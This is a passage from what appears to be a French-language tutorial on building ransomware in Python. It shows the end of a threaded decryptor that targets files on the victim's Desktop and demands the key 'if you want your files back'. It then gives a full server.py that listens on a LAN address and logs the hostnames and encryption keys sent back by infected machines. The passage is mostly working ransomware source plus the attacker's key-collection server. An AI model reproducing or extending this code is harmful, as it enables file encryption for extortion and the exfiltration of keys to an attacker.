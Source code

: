 ```python
                    key_index = 0
                else:
                    key_index += 1
            
            print(f'{file} successfully decrypted')
        except:
            print(f'Failed to decrypt file :(')
        q.task_done()

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 512 // 8  # 512 bit encryption = 64 bytes
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à décrypter
print("Preparing files...")
desktop_path = os.environ['USERPROFILE'] + '\\Desktop'
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(f'{desktop_path}\\{f}') and f != __file__[:-2] + 'exe':
        abs_files.append(f'{desktop_path}\\{f}')
print("Successfully located all files!")

# Demander la clé de décryptage
key = input("Please enter the decryption key if you want your files back: ")

# Créer la file d'attente des fichiers à décrypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le décryptage
for i in range(10):
    t = threading.Thread(target=decrypt, args=(key,), daemon=True)
    t.start()

q.join()
print('Decryption is completed!!!')
```

[Revenir en haut](#table-des-matières)

#### 4.3 Création du script de serveur (server.py)

Ce script crée un serveur pour recevoir la clé de chiffrement et le nom d'hôte du client.

```python
import socket

IP_ADDRESS = '192.168.1.85'
PORT = 5678

print('Creating Socket')
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((IP_ADDRESS, PORT))
    print('Listening for connections...')
    s.listen(1)
    conn, addr = s.accept()
    print(f'Connection from {addr} established!')
    with conn:
        while True:
            host_and_key = conn.recv(1024).decode()
            with open('encrypted_hosts.txt', 'a') as f:
                f.write(host_and_key + '\n')
```